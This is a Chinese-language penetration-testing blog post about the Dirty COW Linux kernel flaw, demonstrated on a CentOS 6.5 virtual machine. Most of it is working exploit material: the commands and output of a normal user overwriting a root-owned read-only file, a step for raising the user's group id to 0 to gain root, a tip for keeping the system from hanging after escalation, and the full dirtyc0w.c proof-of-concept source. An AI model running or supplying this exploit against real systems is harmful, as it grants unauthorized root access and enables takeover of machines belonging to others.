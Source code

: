 +++
date = "2016-10-22T00:10:46+08:00"
description = ""
draft = false
tags = ["提权"]
title = "脏牛漏洞"
topics = ["Pentest"]

+++

### 0x00 测试环境
> 我是在本地虚拟机测试的，个人理解这个漏洞的话可以起到的作用是：一个普通用户可以覆盖一个root用户的只读文件，若理解有误则希望大家提意见

> ```
CentOS release 6.5
[reber123@WYB ~]$ uname -a
Linux WYB 3.10.5-3.el6.x86_64 #1 SMP Tue Aug 20 14:10:49 UTC 2013 x86_64 x86_64 x86_64 GNU/Linux
[reber123@WYB ~]$ id
uid=502(reber123) gid=502(reber123) groups=502(reber123)
```

### 0x01 创建文件
> 查看文件权限信息，可以看到属主为root，且只读，权限为0404
```
[reber123@WYB ~]$ ls -al test
-r-----r-- 1 root root 19 Oct 21 00:02 test
[reber123@WYB ~]$ cat test
this is not a test
[reber123@WYB ~]$
```

### 0x02 编译、执行poc
> POC保存为a.c，编译为aaa
```
[reber123@WYB ~]$ gcc -lpthread a.c -o aaa
[reber123@WYB ~]$ ls
aaa  a.c  test
[reber123@WYB ~]$

更改test的内容
[reber123@WYB ~]$ ./aaa test xxxxxxxxxxx
mmap f8969000

^C
[reber123@WYB ~]$ cat test
xxxxxxxxxxx a test
[reber123@WYB ~]$
```

### 0x03 后续利用
> 更改用户gid为0即可
{{% fluid_img src="/img/post/dirty_cow1.png" alt="脏牛1" %}}
<br /><br />
{{% fluid_img src="/img/post/dirty_cow2.png" alt="脏牛2" %}}
```
提权后执行下：echo 0 > /proc/sys/vm/dirty_writeback_centisecs 
用来关闭pdflush刷新,否则提权后过几秒系统就会卡死
```


### 0x04 附poc
> ```
/*
####################### dirtyc0w.c #######################
$ sudo -s
# echo this is not a test > foo
# chmod 0404 foo
$ ls -lah foo
-r-----r-- 1 root root 19 Oct 20 15:23 foo
$ cat foo
this is not a test
$ gcc -lpthread dirtyc0w.c -o dirtyc0w
$ ./dirtyc0w foo m00000000000000000
mmap 56123000
madvise 0
procselfmem 1800000000
$ cat foo
m00000000000000000
####################### dirtyc0w.c #######################
*/
#include <stdio.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <string.h>
  
void *map;
int f;
struct stat st;
char *name;
  
void *madviseThread(void *arg)
{
  char *str;
  str=(char*)arg;
  int i,c=0;
  for(i=0;i<100000000;i++)
  {
/*
You have to race madvise(MADV_DONTNEED) :: https://access.redhat.com/secu ... 06661
> This is achieved by racing the madvise(MADV_DONTNEED) system call
> while having the page of the executable mmapped in memory.
*/
    c+=madvise(map,100,MADV_DONTNEED);
  }
  printf("madvise %d\n\n",c);
}
  
void *procselfmemThread(void *arg)
{
  char *str;
  str=(char*)arg;
/*
You have to write to /proc/self/mem :: https://bugzilla.redhat.com/sh ... 23c16
>  The in the wild exploit we are aware of doesn't work on Red Hat
>  Enterprise Linux 5 and 6 out of the box because on one side of
>  the race it writes to /proc/self/mem, but /proc/self/mem is not
>  writable on Red Hat Enterprise Linux 5 and 6.
*/
  int f=open("/proc/self/mem",O_RDWR);
  int i,c=0;
  for(i=0;i<100000000;i++) {
/*
You have to reset the file pointer to the memory position.
*/
    lseek(f,map,SEEK_SET);
    c+=write(f,str,strlen(str));
  }
  printf("procselfmem %d\n\n", c);
}
  
  
int main(int argc,char *argv[])
{
/*
You have to pass two arguments. File and Contents.
*/
  if (argc<3)return 1;
  pthread_t pth1,pth2;
/*
You have to open the file in read only mode.
*/
  f=open(argv[1],O_RDONLY);
  fstat(f,&st);
  name=argv[1];
/*
You have to use MAP_PRIVATE for copy-on-write mapping.
> Create a private copy-on-write mapping.  Updates to the
> mapping are not visible to other processes mapping the same
> file, and are not carried through to the underlying file.  It
> is unspecified whether changes made to the file after the
> mmap() call are visible in the mapped region.
*/
/*
You have to open with PROT_READ.
*/
  map=mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);
  printf("mmap %x\n\n",map);
/*
You have to do it on two threads.
*/
  pthread_create(&pth1,NULL,madviseThread,argv[1]);
  pthread_create(&pth2,NULL,procselfmemThread,argv[2]);
/*
You have to wait for the threads to finish.
*/
  pthread_join(pth1,NULL);
  pthread_join(pth2,NULL);
  return 0;
}
```